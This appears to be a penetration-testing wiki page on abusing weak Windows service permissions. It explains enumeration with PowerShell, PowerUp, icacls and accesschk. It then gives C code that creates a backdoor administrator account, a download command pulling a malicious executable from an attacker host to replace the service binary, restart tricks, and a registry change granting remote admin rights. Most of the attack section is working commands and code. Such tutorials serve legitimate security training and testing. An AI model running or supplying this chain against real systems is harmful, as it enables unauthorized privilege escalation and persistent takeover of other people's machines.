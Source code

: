 ```yaml
---
authors: ShutdownRepo, Anh4ckin3
---
```


# 🛠️ Weak service permissions

## Theory

File permissions in Windows define who is allowed to access, modify, or execute files on the system. If these permissions are misconfigured, they can enable unauthorized users to alter or replace critical files, potentially leading to security vulnerabilities such as unauthorized access.

Below is a summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure permissions on service executable 

#### Enumerate of vulnerable services
This type of abuse can occur when the binary of a Windows service is misconfigured. If the permissions for this binary allow a local user without special privileges to modify or replace it with a malicious version, the attacker may gain the privileges of the service account, which is often a high-privilege account.

Enumeration can be performed using PowerShell, either by leveraging native PowerShell commands (Living off the Land) or by utilizing additional tools and scripts like [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two lies in the results: PowerUp can identify whether a service is vulnerable, while PowerShell merely lists the binary services. In this example, the aniService service is misconfigured and vulnerable to this attack.

```powershell
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```
Once the vulnerable binary has been identified using a tool like PowerUp or Winpeas, the permissions of the binary can be checked with **icacls.exe**. The most relevant permissions to look for are (F) and (M), particularly when they are associated with a group such as `Everyone`: or a local user, for example.
```powershell
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe
                                    AUTORITE NT\System:(F)
                                    BUILTIN\Administrators:(F)
                                    Everyone:(F)
                                    BUILTIN\Users:(RX)
```

####  Crafting a malicious binary
In the current practical case, the executable permission (F) is set for the "Everyone" group. However, if the permission had been set to (M), abuse would also have been possible. Due to this misconfiguration, the attacker can easily replace the binary with a malicious version. PowerUp can be used to automate this task.

```powershell
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is executed, it will only be necessary to restart the service to ensure that the abuse has been successfully carried out.

The second method involves creating a custom malicious binary, which can offer advantages, such as bypassing antivirus detection. Below is a simple C code that will execute a Windows system command (the system command can, of course, be replaced with another).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

```

To compile Windows Executable it is possible to use `i686-w64-mingw32-gcc`.
```bash
> i686-w64-mingw32-gcc CODE.C$ -lws2_32 -o FILE.EXE$
```

#### Replacing binaries
Due to the incorrect permissions, the attacker can replace the original executable by renaming it, for example. The attacker can then add the new malicious file with the same name as the original one.
```powershell
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<ATTACKER_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```

#### Methods for service restart
Once the binary is replaced, the service needs to be restarted. To verify if this is possible, a tool from the Sysinternals suite can be helpful, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) It is a tool that allows system administrators to quickly check the type of access users or specific groups have to resources, including files, directories, registry keys, global objects, and Windows services.
```powershell
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage service startup are SERVICE_START and SERVICE_STOP. If these permissions are assigned to your user account or to a group that controls your access, you will be able to restart the service.
```powershell
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
An alternative exists if the Startup permissions are not present. Using the sc.exe tool, the boot method used by the service can be checked. If it is set to AUTO_START, this means the service starts automatically during Windows boot.
```powershell
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows for rebooting a Windows system. With this privilege, it is possible to indirectly restart a service, even without having the direct permissions to do so.
```powershell
> shutdown /r /t 0
```
Once the service is rebooted, the payload should execute.

#### Configuring the LocalAccountTokenFilterPolicy

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local Administrators group (except for those with a RID of 500, such as the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction, the value of the key must be modified.
```powershell
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

### Ressources 
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)


